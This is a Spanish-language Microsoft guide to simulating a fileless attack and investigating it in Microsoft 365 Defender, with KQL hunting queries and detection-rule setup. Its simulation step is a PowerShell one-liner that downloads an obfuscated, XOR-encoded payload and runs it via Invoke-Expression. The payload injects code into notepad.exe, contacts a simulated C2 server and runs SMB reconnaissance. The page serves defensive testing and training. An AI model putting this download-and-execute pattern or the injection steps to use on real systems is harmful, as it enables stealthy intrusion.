

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Ejecutar las simulaciones de ataque de Microsoft 365 Defender

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](mtp-pilot-plan.md)<br/>[Planeación](mtp-pilot-plan.md)|[](prepare-mtpeval.md)<br/>[Preparación](prepare-mtpeval.md)|<br/>Simular ataque|[](mtp-pilot-close.md)<br/>[Cerrar y resumir](mtp-pilot-close.md)|
|--|--|--|--|
|||*¡Estás aquí!*||

Actualmente estás en la fase de simulación de ataque.

Después de preparar el entorno piloto, es hora de probar la administración de incidentes de Microsoft 365 Defender y las capacidades automatizadas de investigación y corrección. Te ayudaremos a simular un ataque sofisticado que aprovecha técnicas avanzadas para ocultarte de la detección. El ataque enumera las sesiones de bloque de mensajes de servidor (SMB) abiertas en controladores de dominio y recupera las direcciones IP recientes de los dispositivos de los usuarios. Esta categoría de ataques normalmente no incluye archivos descartados en el dispositivo de la víctima, sino que se producen únicamente en la memoria. "Viven fuera de la tierra" mediante el uso de herramientas administrativas y del sistema existentes e insertan su código en los procesos del sistema para ocultar su ejecución, este comportamiento les permite eludir la detección y persistir en el dispositivo.

En esta simulación, nuestro escenario de ejemplo comienza con un script de PowerShell. Un usuario puede ser engañado para ejecutar un script. O bien, el script puede ejecutarse desde una conexión remota a otro equipo desde un dispositivo infectado anteriormente: el atacante intenta moverse lateralmente en la red. La detección de estos scripts puede ser difícil porque los administradores también suelen ejecutar scripts de forma remota para llevar a cabo diversas actividades administrativas.


Durante la simulación, el ataque inserta el shellcode en un proceso aparentemente inocente. El escenario requiere el uso de notepad.exe. Elegimos este proceso para la simulación, pero es más probable que los atacantes se den como destino a un proceso de sistema de larga ejecución, como svchost.exe. A continuación, el shellcode pasa a ponerse en contacto con el servidor de comandos y control (C2) del atacante para recibir instrucciones sobre cómo continuar. El script intenta ejecutar consultas de reconocimiento en el controlador de dominio (DC). El reconocimiento permite a un atacante obtener información sobre la información de inicio de sesión del usuario reciente. Una vez que los atacantes tienen esta información, pueden moverse lateralmente en la red para llegar a una cuenta confidencial específica

> [!IMPORTANT]
> Para obtener resultados óptimos, sigue las instrucciones de simulación de ataque lo más de cerca posible.

## <a name="simulation-environment-requirements"></a>Requisitos del entorno de simulación

Dado que ya configuró el entorno piloto durante la fase de preparación, asegúrese de que tiene dos dispositivos para este escenario: un dispositivo de prueba y un controlador de dominio.

1. Compruebe que el inquilino ha [habilitado Microsoft 365 Defender](./mtp-enable.md#starting-the-service).

2. Compruebe la configuración del controlador de dominio de prueba:

   - El dispositivo se ejecuta con Windows Server 2008 R2 o una versión posterior.
   - Controlador de dominio de prueba para [Microsoft Defender para Identidad](/azure/security-center/security-center-wdatp) y habilitar la administración [remota.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Compruebe que [la integración de Microsoft Defender for Identity y Microsoft Cloud App Security](/cloud-app-security/mdi-integration) se ha habilitado.
   - Se crea un usuario de prueba en el dominio: no se necesitan permisos de administrador.

3. Comprobar la configuración del dispositivo de prueba:

   1. El dispositivo se ejecuta con Windows 10 versión 1903 o una versión posterior.

   1. El dispositivo de prueba está unido al dominio de prueba.

   1. [Active el antivirus Windows Defender](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Si tiene problemas para habilitar Windows Defender Antivirus, vea este [tema de solución de problemas](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).

   1. Compruebe que el dispositivo de prueba [está incorporado a Microsoft Defender para endpoint).](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Si usas un inquilino existente e implementas grupos de dispositivos, crea un grupo de dispositivos dedicado para el dispositivo de prueba y lo insertas en el nivel superior en la experiencia de usuario de configuración.

## <a name="run-the-attack-scenario-simulation"></a>Ejecutar la simulación del escenario de ataque

Para ejecutar la simulación del escenario de ataque:

1. Inicie sesión en el dispositivo de prueba con la cuenta de usuario de prueba.

2. Abra una Windows PowerShell en el dispositivo de prueba.

3. Copie el siguiente script de simulación:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Si abre este documento en un explorador web, es posible que tenga problemas para copiar el texto completo sin perder determinados caracteres ni introducir saltos de línea adicionales. Descargue este documento y ábralo en Adobe Reader.

4. En el símbolo del sistema, pegue y ejecute el script copiado.

> [!NOTE]
> Si ejecuta PowerShell con el protocolo de escritorio remoto (RDP), use el comando Escribir texto del Portapapeles en el cliente RDP porque es posible que la tecla rápida **CTRL-V** o el método de clic y pegado con el botón secundario no funcionen. En ocasiones, las versiones recientes de PowerShell tampoco aceptarán ese método, es posible que primero tenga que copiarlo en el Bloc de notas en la memoria, copiarlo en la máquina virtual y, a continuación, pegarlo en PowerShell.

Unos segundos más tarde, <i>notepad.exe</i> se abrirá. Se insertará un código de ataque simulado en notepad.exe. Mantenga abierta la instancia del Bloc de notas generada automáticamente para experimentar el escenario completo.

El código de ataque simulado intentará comunicarse con una dirección IP externa (simulando el servidor C2) y, a continuación, intentará reconocimiento con el controlador de dominio a través de SMB.

Verá un mensaje que se muestra en la consola de PowerShell cuando se complete este script.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Para ver la característica De incidentes y respuesta automatizados en acción, mantenga el notepad.exe proceso abierto. Verá El incidente automatizado y la respuesta detienen el proceso del Bloc de notas.

## <a name="investigate-an-incident"></a>Investigar un incidente

> [!NOTE]
> Antes de ayudarle a través de esta simulación, vea el siguiente vídeo para ver cómo la administración de incidentes le ayuda a crear las alertas relacionadas como parte del proceso de investigación, donde puede encontrarla en el portal y cómo puede ayudarle en las operaciones de seguridad:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Al cambiar al punto de vista del analista de SOC, ahora puede empezar a investigar el ataque en el portal del Centro de seguridad de Microsoft 365.

1. Abra la cola de incidentes del portal del Centro de seguridad de [Microsoft 365](https://security.microsoft.com/incidents) desde cualquier dispositivo.

2. Vaya a **Incidentes desde** el menú.

    

3. El nuevo incidente del ataque simulado aparecerá en la cola de incidentes.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Investigar el ataque como un solo incidente

Microsoft 365 Defender correlaciona análisis y agrega todas las alertas e investigaciones relacionadas de diferentes productos en una entidad de incidentes. Al hacerlo, Microsoft 365 Defender muestra una historia de ataque más amplia, lo que permite al analista de SOC comprender y responder a amenazas complejas.

Las alertas generadas durante esta simulación están asociadas con la misma amenaza y, como resultado, se agregan automáticamente como un único incidente.

Para ver el incidente:

1. Vaya a la **cola Incidentes.**

   

2. Seleccione el elemento más reciente haciendo clic en el círculo situado a la izquierda del nombre del incidente. Un panel lateral muestra información adicional sobre el incidente, incluidas todas las alertas relacionadas. Cada incidente tiene un nombre único que lo describe en función de los atributos de las alertas que incluye.

   

   Las alertas que se muestran en el panel se pueden filtrar en función de los recursos de servicio: Microsoft Defender para la identidad, Microsoft Cloud App Security, Microsoft Defender para endpoint, Microsoft 365 Defender y Microsoft Defender para Office 365.

3. Seleccione **Abrir página de incidentes** para obtener más información sobre el incidente.

   En la **página** Incidente, puede ver todas las alertas e información relacionadas con el incidente. La información incluye las entidades y activos que participan en la alerta, el origen de detección de las alertas (Microsoft Defender para la identidad, EDR) y el motivo por el que se vincularon. Al revisar la lista de alertas de incidentes se muestra la progresión del ataque. Desde esta vista, puede ver e investigar las alertas individuales.

   También puede hacer clic en **Administrar incidente** en el menú de la derecha, para etiquetar el incidente, asignarlo a usted mismo y agregar comentarios.

   

   

### <a name="review-generated-alerts"></a>Revisar alertas generadas

Veamos algunas de las alertas generadas durante el ataque simulado.

> [!NOTE]
> Solo recorreremos algunas de las alertas generadas durante el ataque simulado. Dependiendo de la versión de Windows y los productos de Microsoft 365 Defender que se ejecutan en el dispositivo de prueba, es posible que veas más alertas que aparecen en un orden ligeramente diferente.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Alerta: Se observó una inyección de proceso sospechosa (Origen: Microsoft Defender para endpoint EDR)

Los atacantes avanzados usan métodos sofisticados y furtivos para conservar la memoria y ocultarse de las herramientas de detección. Una técnica común es operar desde dentro de un proceso de sistema de confianza en lugar de un ejecutable malintencionado, lo que hace difícil que las herramientas de detección y las operaciones de seguridad detecten el código malintencionado.

Para permitir que los analistas de SOC puedan detectar estos ataques avanzados, los sensores de memoria profunda de Microsoft Defender para endpoint proporcionan a nuestro servicio en la nube una visibilidad sin precedentes de una variedad de técnicas de inyección de código entre procesos. En la siguiente figura se muestra cómo Defender for Endpoint detectó y alertó sobre el intento de insertar código en <i>notepad.exe</i>.


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Alerta: comportamiento inesperado observado por un proceso ejecutado sin argumentos de línea de comandos (Source: Microsoft Defender for Endpoint EDR)

Las detecciones de Puntos de conexión de Microsoft Defender suelen tener como destino el atributo más común de una técnica de ataque. Este método garantiza la durabilidad y aumenta la barra para que los atacantes cambien a tácticas más recientes.

Empleamos algoritmos de aprendizaje a gran escala para establecer el comportamiento normal de los procesos comunes dentro de una organización y en todo el mundo y observamos cuándo estos procesos muestran comportamientos anómalos. Estos comportamientos anómalos a menudo indican que se introdujo código extraño y se están ejecutando en un proceso de confianza.

En este escenario, el proceso <i>notepad.exe</i> muestra un comportamiento anormal, que implica la comunicación con una ubicación externa. Este resultado es independiente del método específico usado para introducir y ejecutar el código malintencionado.

> [!NOTE]
> Dado que esta alerta se basa en modelos de aprendizaje automático que requieren procesamiento back-end adicional, puede tardar algún tiempo antes de ver esta alerta en el portal.

Tenga en cuenta que los detalles de la alerta incluyen la dirección IP externa, un indicador que puede usar como pivote para expandir la investigación.

Seleccione la dirección IP en el árbol del proceso de alerta para ver la página de detalles de la dirección IP.


En la siguiente figura se muestra la página de detalles de dirección IP seleccionada (haciendo clic en dirección IP en el árbol de proceso alerta).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Alerta: Reconocimiento de direcciones IP y de usuario (SMB) (Origen: Microsoft Defender para la identidad)

La enumeración mediante el protocolo bloque de mensajes de servidor (SMB) permite a los atacantes obtener información de inicio de sesión de usuario reciente que les ayuda a moverse lateralmente por la red para obtener acceso a una cuenta confidencial específica.

En esta detección, se desencadena una alerta cuando la enumeración de sesión SMB se ejecuta en un controlador de dominio.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Revisar la escala de tiempo del dispositivo [Microsoft Defender para endpoint]

Después de explorar las distintas alertas de este incidente, vuelva a la página de incidentes que investigó anteriormente. Selecciona la **pestaña Dispositivos** en la página incidente para revisar los dispositivos implicados en este incidente según lo informado por Microsoft Defender para Endpoint y Microsoft Defender for Identity.

Selecciona el nombre del dispositivo donde se realizó el ataque para abrir la página de entidad para ese dispositivo específico. En esa página, puede ver alertas que se desencadenaron y eventos relacionados.

Selecciona la **pestaña** Escala de tiempo para abrir la escala de tiempo del dispositivo y ver todos los eventos y comportamientos observados en el dispositivo en orden cronológico, intercalados con las alertas generadas.



La expansión de algunos de los comportamientos más interesantes proporciona detalles útiles, como árboles de proceso.

Por ejemplo, desplácese hacia abajo hasta que encuentre el evento de alerta **Inserción de proceso sospechoso observada**. Seleccione elpowershell.exe se inserta **notepad.exe** un evento de proceso debajo de él, para  mostrar el árbol de proceso completo para este comportamiento en el gráfico Entidades de eventos en el panel lateral. Use la barra de búsqueda para filtrar si es necesario.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Revisar la información del usuario [Microsoft Cloud App Security]

En la página incidente, seleccione la **pestaña Usuarios** para mostrar la lista de usuarios implicados en el ataque. La tabla contiene información adicional sobre cada usuario, incluida la puntuación prioridad de **investigación de cada** usuario.

Seleccione el nombre de usuario para abrir la página de perfil del usuario donde se puede llevar a cabo una investigación adicional. [Obtenga más información sobre cómo investigar usuarios de riesgo.](/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Investigación y corrección automatizadas

> [!NOTE]
>Antes de ayudarle a través de esta simulación, vea el siguiente vídeo para familiarizarse con lo que es la autoproducción automatizada, dónde encontrarla en el portal y cómo puede ayudar en las operaciones de seguridad:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Vuelva al incidente en el portal del Centro de seguridad de Microsoft 365. La **pestaña Investigaciones** de **la** página Incidentes muestra las investigaciones automatizadas desencadenadas por Microsoft Defender para Identity y Microsoft Defender para endpoint. La captura de pantalla siguiente muestra solo la investigación automatizada desencadenada por Defender for Endpoint. De forma predeterminada, Defender para endpoint corrige automáticamente los artefactos encontrados en la cola, lo que requiere corrección.


Seleccione la alerta que desencadenó una investigación para abrir la **página Detalles de la** investigación. Verá los siguientes detalles:

- Alertas que desencadenaron la investigación automatizada.
- Usuarios y dispositivos afectados. Si se encuentran indicadores en dispositivos adicionales, estos dispositivos adicionales también aparecerán en la lista.
- Lista de pruebas. Las entidades encontradas y analizadas, como archivos, procesos, servicios, controladores y direcciones de red. Estas entidades se analizan para posibles relaciones con la alerta y se califican como benignas o malintencionadas.
- Amenazas encontradas. Amenazas conocidas que se encuentran durante la investigación.

> [!NOTE]
> Según el tiempo, es posible que la investigación automatizada aún se esté ejecutando. Espere unos minutos a que se complete el proceso antes de recopilar y analizar la evidencia y revisar los resultados. Actualice la **página Detalles de investigación** para obtener los resultados más recientes.


Durante la investigación automatizada, Microsoft Defender para Endpoint identificó el proceso notepad.exe, que se inyectó como uno de los artefactos que requerían corrección. Defender for Endpoint detiene automáticamente la inyección de procesos sospechosos como parte de la corrección automatizada.

Puedes ver cómo <i>notepad.exe</i> de la lista de procesos en ejecución en el dispositivo de prueba.

## <a name="resolve-the-incident"></a>Resolver el incidente

Una vez completada la investigación y confirmada su corrección, cierre el incidente.

Seleccione **Administrar incidente**. Establezca el estado en **Resolver incidente** y seleccione la clasificación correspondiente.

Cuando se resuelve el incidente, cierra todas las alertas asociadas en el Centro de seguridad de Microsoft 365 y en los portales relacionados.


Esto ajusta la simulación de ataque para la administración de incidentes y los escenarios automatizados de investigación y corrección. La siguiente simulación te llevará a través de la búsqueda proactiva de amenazas en busca de archivos potencialmente malintencionados.

## <a name="advanced-hunting-scenario"></a>Escenario de búsqueda avanzada

> [!NOTE]
> Antes de ayudarle a través de la simulación, vea el siguiente vídeo para comprender los conceptos avanzados de búsqueda, vea dónde puede encontrarlo en el portal y sepa cómo puede ayudarle en sus operaciones de seguridad:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Requisitos del entorno de búsqueda

Hay un único buzón interno y un dispositivo necesarios para este escenario. También necesitará una cuenta de correo electrónico externa para enviar el mensaje de prueba.

1. Compruebe que el inquilino ha [habilitado Microsoft 365 Defender](./mtp-enable.md#starting-the-service).
2. Identificar un buzón de destino que se usará para recibir correo electrónico.
    a. Microsoft Defender para Office 365 b debe supervisar este buzón. El dispositivo del requisito 3 debe tener acceso a este buzón
3. Configurar un dispositivo de prueba: a. Asegúrate de usar Windows 10 versión 1903 o una versión posterior.
    b. Une el dispositivo de prueba al dominio de prueba.
    c. [Active el antivirus Windows Defender](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Si tiene problemas para habilitar Windows Defender Antivirus, consulte [este tema de solución de problemas](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d. [Incorporación a Microsoft Defender para endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Ejecutar la simulación

1. Desde una cuenta de correo electrónico externa, envíe un correo electrónico al buzón identificado en el paso 2 de la sección requisitos del entorno de prueba. Incluya datos adjuntos que se permitirán a través de las directivas de filtro de correo electrónico existentes. Este archivo no necesita ser malintencionado ni ejecutable. Los tipos de archivo sugeridos <i>son .pdf,</i> <i>.exe</i> (si se permite) u documentos de Office como un archivo de Word.
2. Abra el correo electrónico enviado desde el dispositivo configurado como se define en el paso 3 de la sección de requisitos del entorno de prueba. Abra los datos adjuntos o guarde el archivo en el dispositivo.

#### <a name="go-hunting"></a>Ir a buscar

1. Abra el security.microsoft.com web.

2. Vaya a **Búsqueda > búsqueda avanzada**.

   

3. Cree una consulta que comience recopilando eventos de correo electrónico.

   1. En el panel de consultas, seleccione Nuevo.

   1. Haga doble clic en la tabla EmailEvents del esquema.

      ```console
      EmailEvents
      ```

   1. Cambie el período de tiempo a las últimas 24 horas. Suponiendo que el correo electrónico que envió al realizar la simulación anterior fue en las últimas 24 horas, cambie el período de tiempo.

      

   1. Ejecute la consulta. Es posible que tenga muchos resultados según el entorno del piloto.

      > [!NOTE]
      > Consulta el siguiente paso para filtrar opciones para limitar la devolución de datos.

      

        > [!NOTE]
        > La búsqueda avanzada muestra los resultados de la consulta como datos tabulares. También puede optar por ver los datos en otros tipos de formato, como gráficos.

   1. Vea los resultados y vea si puede identificar el correo electrónico que abrió. El mensaje puede tardar hasta 2 horas en aparecer en la búsqueda avanzada. Si el entorno de correo electrónico es grande y hay muchos resultados, es posible que desee usar la opción **Mostrar** filtros para buscar el mensaje.

      En el ejemplo, el correo electrónico se envió desde una cuenta de Yahoo. Haga clic en el icono yahoo.com en la sección SenderFromDomain y, a continuación, haga clic en Aplicar para **+** agregar el dominio seleccionado a la consulta.   Use el dominio o la cuenta de correo electrónico que se usó para enviar el mensaje de prueba en el paso 1 de Ejecutar la simulación para filtrar los resultados. Vuelva a ejecutar la consulta para obtener un conjunto de resultados más pequeño para comprobar que ve el mensaje de la simulación.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Haga clic en las filas resultantes de la consulta para poder inspeccionar el registro.

      

4. Ahora que ha comprobado que puede ver el correo electrónico, agregue un filtro para los datos adjuntos. Céntrate en todos los correos electrónicos con datos adjuntos en el entorno. Para este escenario, céntrate en los correos electrónicos entrantes, no en los que se envían desde el entorno. Quite los filtros que haya agregado para buscar el mensaje y agregar "| donde **AttachmentCount > 0** y **EmailDirection**  ==  **"Inbound""**

   La siguiente consulta le mostrará el resultado con una lista más corta que la consulta inicial para todos los eventos de correo electrónico:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. A continuación, incluya la información sobre los datos adjuntos (como: nombre de archivo, hashes) en el conjunto de resultados. Para ello, únase a la **tabla EmailAttachmentInfo.** Los campos comunes que se usan para unirse, en este caso son **NetworkMessageId** y **RecipientObjectId**.

   La siguiente consulta también incluye una línea adicional "| **project-rename EmailTimestamp=Timestamp**" que le ayudará a identificar qué marca de tiempo estaba relacionada con el correo electrónico y las marcas de tiempo relacionadas con las acciones de archivo que agregará en el paso siguiente.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. A continuación, use el valor **SHA256** de la **tabla EmailAttachmentInfo** para buscar **DeviceFileEvents** (acciones de archivo que se han producido en el extremo) para ese hash. El campo común aquí será el hash SHA256 para los datos adjuntos.

   La tabla resultante ahora incluye detalles del punto de conexión (Microsoft Defender para endpoint), como el nombre del dispositivo, qué acción se hizo (en este caso, filtrada para incluir solo eventos FileCreated) y dónde se almacenaba el archivo. También se incluirá el nombre de cuenta asociado al proceso.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Ahora ha creado una consulta que identificará todos los correos electrónicos entrantes en los que el usuario abrió o guardó los datos adjuntos. También puede refinar esta consulta para filtrar para dominios de remitente específicos, tamaños de archivo, tipos de archivo, entre otros.

7. Las funciones son un tipo especial de unión, lo que te permite extraer más datos de TI sobre un archivo como su prevalencia, la información del firmante y el emisor, etc. Para obtener más detalles sobre el archivo, use el enriquecimiento de la función **FileProfile():**

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Crear una detección

Una vez que haya creado una consulta que  identifique la información que le gustaría recibir alerta sobre si se producirían en el futuro, puede crear una detección personalizada a partir de la consulta.

Las detecciones personalizadas ejecutarán la consulta según la frecuencia que establezca y los resultados de las consultas crearán alertas de seguridad, en función de los activos afectados que elija. Estas alertas se correlacionarán con incidentes y se pueden triager como cualquier otra alerta de seguridad generada por uno de los productos.

1. En la página de consulta, quite las líneas 7 y 8 que se agregaron en el paso 7 de las instrucciones Ir a buscar y haga clic en **Crear regla de detección.**

   

   > [!NOTE]
   > Si hace clic en **Crear regla de detección** y tiene errores de sintaxis en la consulta, la regla de detección no se guardará. Compruebe doblemente la consulta para asegurarse de que no hay errores.

2. Rellene los campos requeridos con la información que permitirá al equipo de seguridad comprender la alerta, por qué se generó y qué acciones espera que lleve a cabo.

   

   Asegúrese de rellenar los campos con claridad para ayudar a dar al siguiente usuario una decisión fundamentada sobre esta alerta de regla de detección

3. Seleccione las entidades que se verán afectadas en esta alerta. En este caso, seleccione **Dispositivo** y **buzón**.

   

4. Determine qué acciones deben tener lugar si se desencadena la alerta. En este caso, ejecute un examen antivirus, aunque se podrían realizar otras acciones.

   

5. Seleccione el ámbito de la regla de alerta. Dado que esta consulta implica dispositivos, los grupos de dispositivos son relevantes en esta detección personalizada según el contexto de Microsoft Defender para endpoint. Al crear una detección personalizada que no incluya dispositivos como entidades afectadas, el ámbito no se aplica.

   

   Para este piloto, es posible que quieras limitar esta regla a un subconjunto de dispositivos de prueba en el entorno de producción.

6. Seleccione **Crear**. A continuación, **seleccione Reglas de detección personalizadas** en el panel de navegación.

   

   

   En esta página, puede seleccionar la regla de detección, que abrirá una página de detalles.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Ejercicios de búsqueda avanzada adicionales

Para obtener más información sobre la búsqueda avanzada, las siguientes difusión por web le ayudarán a través de las capacidades de búsqueda avanzada en Microsoft 365 Defender para crear consultas entre columnas, pivotar a las entidades y crear detecciones personalizadas y acciones de corrección.

> [!NOTE]
> Esté preparado con su propia cuenta de GitHub para ejecutar las consultas de búsqueda en el entorno del laboratorio de prueba piloto.

|Título|Descripción|Descargar MP4|Ver en YouTube|Archivo CSL que se usará|
|---|---|---|---|---|
|Episodio 1: Conceptos básicos de KQL|Cubriremos los conceptos básicos de las capacidades avanzadas de búsqueda en Microsoft 365 Defender. Obtenga información sobre los datos de búsqueda avanzados disponibles y la sintaxis y los operadores básicos de KQL.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Episodio 1: Archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Episodio 2: Combinaciones|Seguiremos aprendiendo sobre los datos en la búsqueda avanzada y cómo unir tablas. Obtenga información sobre las combinaciones internas, externas, únicas y semi, y los matices de la combinación predeterminada de Kusto innerunique.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Episodio 2: Archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Episodio 3: Resumen, pivotación y visualización de datos|Ahora que podemos filtrar, manipular y unir datos, es hora de empezar a resumir, cuantificar, pivotar y visualizar. En este episodio, cubriremos el operador de resumen y algunos de los cálculos que puedes realizar mientras te abates en tablas adicionales en el esquema de búsqueda avanzado. Conviertemos nuestros conjuntos de datos en gráficos que pueden ayudar a mejorar el análisis.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Episodio 3: Archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Episodio 4: Vamos a cazar. Aplicación de KQL al seguimiento de incidentes|Tiempo para realizar un seguimiento de alguna actividad de atacante. En este episodio, usaremos nuestra mejor comprensión de KQL y la búsqueda avanzada en Microsoft 365 Defender para realizar un seguimiento de un ataque. Aprende algunas de las sugerencias y trucos usados en el campo para realizar un seguimiento de la actividad de los atacantes, incluidos los ABC de ciberseguridad y cómo aplicarlos a la respuesta a incidentes.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Episodio 4: Archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Paso siguiente

| <br>[Fase de cierre y resumen](mtp-pilot-close.md)|Analice el resultado piloto de Microsoft 365 Defender, presentarlos a las partes interesadas y dar el siguiente paso.
|:-----|:-----|